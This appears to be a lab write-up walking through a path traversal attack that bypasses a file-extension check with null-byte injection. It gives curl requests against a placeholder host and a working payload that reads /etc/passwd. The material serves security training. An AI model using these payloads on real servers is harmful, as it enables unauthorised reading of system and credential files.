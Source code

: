 # File path traversal, validation of file extension with null byte bypass — Practitioner

**Status:** Solved

---

## Goal

Bypass a filter that validates the filename must end with a specific file extension (like `.png`). Use null byte injection to bypass this check.

---

## Steps (simple & complete)

1. **Find the vulnerable endpoint**
   - Browse any product page and check how images load:
```
   GET /image?filename=12.jpg
```

2. **Test normal traversal**
   - Try basic traversal:
```bash
   curl -s "https://TARGET/image?filename=../../../etc/passwd"
```
   - This fails because the app validates the filename must end with an image extension.

3. **Test with valid extension**
   - Try adding the extension:
```bash
   curl -s "https://TARGET/image?filename=../../../etc/passwd.png"
```
   - This still fails because the file doesn't actually exist with that extension.

4. **Understand the validation**
   - The app checks that the supplied filename ends with `.png` or similar extension
   - It performs a string check on the filename parameter.

5. **Use null byte injection**
   - In many programming languages, the null byte (`%00`) terminates a string
   - Add `%00` before the required extension:
```bash
   curl -s "https://TARGET/image?filename=../../../etc/passwd%00.png"
```

6. **How it works**
   - Validation check: sees `../../../etc/passwd%00.png` ends with `.png` ✓ (passes)
   - File system call: processes only up to `%00`, so it reads `../../../etc/passwd`
   - The `.png` part after null byte is ignored by the file system.

7. **Verify success**
   - If you see the file contents with usernames, the null byte bypass worked.

8. **Lab completion**
   - The lab automatically marks as solved when `/etc/passwd` is successfully retrieved.

---

## Example

- Vulnerable endpoint: `GET /image?filename=12.jpg`
- Working payload:
```bash
curl -s "https://TARGET/image?filename=../../../etc/passwd%00.png"
```

---

**Lab 6 Complete ✓**

